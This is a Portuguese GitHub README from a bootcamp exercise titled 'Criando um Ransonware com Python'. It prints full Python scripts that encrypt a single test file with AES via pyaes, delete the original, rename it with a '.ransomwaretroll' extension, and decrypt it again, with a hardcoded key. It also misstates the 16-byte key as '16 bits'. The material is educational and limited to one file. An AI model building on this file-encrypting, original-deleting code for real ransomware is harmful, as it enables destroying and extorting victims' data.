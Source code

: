 # Projeto: Criando um Ransonware com Python

## Descrição do Projeto
Este projeto tem como objetivo demonstrar o funcionamento básico de criptografia e descriptografia de arquivos utilizando a biblioteca `pyaes` em Python. 
Simula o funcionamento básico de um Ransonware como por exemplo o Wannacry.
O desafio consiste em criar uma pasta contendo um arquivo de texto simples, que é criptografado pelo código do script chamado Encrypt.py, e posteriormente descriptografado com o código do Decrypt.py para restaurar seu conteúdo original. Este projeto simula, de forma educativa, como funcionam operações similares realizadas por malwares ou por sistemas de proteção de dados.

**Nota importante:** Este projeto é destinado apenas para fins educativos. Nunca utilize este código para propósitos maliciosos ou ilegais.

---

## Ferramentas Utilizadas
1. **Python 3.** Linguagem de programação utilizada para desenvolver os códigos.
2. **pyaes.** Biblioteca Python para operações de criptografia AES (Advanced Encryption Standard).
3. **Sistema Operacional Linux (Kali Linux).** Ambiente usado para executar os scripts e simular as operações de criptografia.
4. ** GitHub.** Ferramenta utilizada para controle de versão e armazenamento do projeto.

---

## Passo a Passo

### **1. Configurar o Ambiente**
1. Certifique-se de que o Python 3 está instalado no seu sistema.
2. Instale a biblioteca `pyaes` utilizando um ambiente virtual ou o gerenciador `pip`:
   ```bash
   pip install pyaes
   ```

### **2. Criar a Estrutura do Projeto**
1. Crie uma pasta para o projeto com o nome que preferir (Neste exemplo foi criado como Desafio Ransonware).
2. Dentro da pasta, crie um arquivo de texto chamado `teste.txt` com o conteúdo de sua escolha (exemplo: "Este é um arquivo para teste de criptografia").

### **3. Criar o Script de Criptografia**
1. Foi criado um arquivo Python chamado `encrypt.py`com o editor nano do Kali Linux.
2. Foi inserido o seguinte código no arquivo:
   ```python
   import os
   import pyaes

   def encrypt_file(file_name, key):
       try:
           # Verifica se o arquivo existe
           if not os.path.exists(file_name):
               print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
               return

           # Lê os dados do arquivo
           with open(file_name, "rb") as file:
               file_data = file.read()

           # Remove o arquivo original
           os.remove(file_name)

           # Criptografa os dados
           aes = pyaes.AESModeOfOperationCTR(key)
           crypto_data = aes.encrypt(file_data)

           # Salva os dados criptografados
           new_file_name = file_name + ".ransomwaretroll"
           with open(new_file_name, "wb") as new_file:
               new_file.write(crypto_data)

           print(f"Arquivo '{file_name}' criptografado com sucesso como '{new_file_name}'.")

       except Exception as e:
           print(f"Erro ao criptografar o arquivo: {e}")

   # Chave de criptografia
   key = b"testeransomwares"

   # Nome do arquivo a ser criptografado
   file_name = "teste.txt"

   # Executa a função
   encrypt_file(file_name, key)
   ```

### **4. Criar o Script de Descriptografia**
1. Foi criado  um arquivo Python, também com o editor nano, chamado `decrypt.py`.
2. O seguinte código foi inserido no arquivo:
   ```python
   import os
   import pyaes

   def decrypt_file(file_name, key):
       try:
           # Verifica se o arquivo existe
           if not os.path.exists(file_name):
               print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
               return

           # Lê os dados do arquivo criptografado
           with open(file_name, "rb") as file:
               file_data = file.read()

           # Descriptografa os dados
           aes = pyaes.AESModeOfOperationCTR(key)
           decrypt_data = aes.decrypt(file_data)

           # Remove o arquivo criptografado
           os.remove(file_name)

           # Cria o arquivo descriptografado
           new_file_name = file_name.replace(".ransomwaretroll", "")
           with open(new_file_name, "wb") as new_file:
               new_file.write(decrypt_data)

           print(f"Arquivo '{file_name}' descriptografado com sucesso como '{new_file_name}'.")

       except Exception as e:
           print(f"Erro ao descriptografar o arquivo: {e}")

   # Chave de descriptografia
   key = b"testeransomwares"

   # Nome do arquivo criptografado
   file_name = "teste.txt.ransomwaretroll"

   # Executa a função
   decrypt_file(file_name, key)
   ```

---

## Descrição Detalhada do Código
Cada linha do código foi projetada para realizar uma tarefa específica:
1. **Importação de bibliotecas**: `os` para manipulação de arquivos e `pyaes` para criptografia AES.
2. **Função de criptografia**:
   - Verifica a existência do arquivo.
   - Lê os dados do arquivo em modo binário.
   - Remove o arquivo original para simular um comportamento de ransomware.
   - Criptografa os dados com uma chave AES de 16 bits.
   - Salva os dados criptografados em um novo arquivo.
3. **Função de descriptografia**:
   - Realiza a operação inversa: descriptografa os dados e recria o arquivo original.

---

## Resultados Esperados
- **Antes da criptografia**: O arquivo `teste.txt` está visível e legível.
- **Após a criptografia**: O arquivo `teste.txt` é removido e substituído por `teste.txt.ransomwaretroll`.
- **Após a descriptografia**: O arquivo original `teste.txt` é restaurado.

---

## Considerações Finais
Este projeto é um exemplo introdutório e educativo sobre criptografia e manipulação de arquivos com Python. 
Este desafio faz parte do Bootcamp Cyber Security #2 do Santander, Sob Orientação dos experts da DIO.
O projeto destaca princípios fundamentais de segurança da informação, como proteção de dados e uso de chaves criptográficas. Use este conhecimento para construir soluções éticas e seguras!
